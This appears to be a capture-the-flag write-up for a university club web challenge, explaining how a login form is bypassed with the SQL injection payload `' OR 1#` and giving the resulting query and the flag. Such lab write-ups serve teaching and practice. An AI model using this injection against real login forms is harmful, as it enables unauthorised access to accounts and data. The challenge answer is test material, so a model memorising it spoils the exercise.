 # web / web0

> Points: 1080

## Question


> [ctf.csclub.uwaterloo.ca/web/1](https://ctf.csclub.uwaterloo.ca/web/1)

## Solution

Clicking the link takes us to an authentication form. We use a simple SQL injection to bypass the authentication.
We put the username as `' OR 1#` and leave the password blank. Now the SQL query looks like:

```sql
SELECT * FROM users where username = '' OR 1#' and password = ''
```

With this, the site outputs the flag for us.

### Flag

`uwctf{0480fbf663a8241e}`
